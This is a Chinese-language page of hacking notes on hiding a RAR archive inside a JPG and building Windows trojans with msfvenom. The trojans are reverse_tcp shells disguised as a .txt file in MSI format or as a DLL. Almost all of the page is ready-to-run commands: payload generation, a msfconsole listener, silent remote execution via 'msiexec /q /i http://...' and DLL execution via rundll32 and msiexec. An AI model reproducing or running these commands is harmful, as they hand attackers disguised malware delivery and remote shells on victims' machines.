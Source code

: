 

或：**用c32**把rar的代码直接复制到jpg文件的最后，保存(**使用二进制的方法进行合并**)

这样就是完整的隐写



## 使用kali执行其他格式木马

木马=干坏事的exe，也可以为其他格式

### 生成txt格式的木马（使用msi来执行）

```
msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.1.120 lport=4444 -f msi > haha.txt
```

```
msfconsole #监听
use multi/handler
set payload windows/x64/shell/reverse_tcp
show options
set lhost 192.168.1.120
exploit
```

**关于静默安装包=msi**

默认位置：
C:\Windows\System32\msiexec.exe
C:\Windows\SysWOW64\msiexec.exe

**搭建网站后【可用PHPstudy、公网】**

**远程加载木马到电脑运行**

```
cmd:
msiexec /q /i http://192.168.1.252/haha.txt
```



### dll执行法：【dll动态链接库】

```
msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.1.120 lport=4444 -f dll > haha.dll

msfconsole #监听
use multi/handler
set payload windows/x64/shell/reverse_tcp
show options
set lhost 192.168.1.120
exploit

msiexec /y xxx.dll    # 执行

rundll32.exe shell32.dll,Control_RunDLL ./haha.dll   # 执行方法2
```
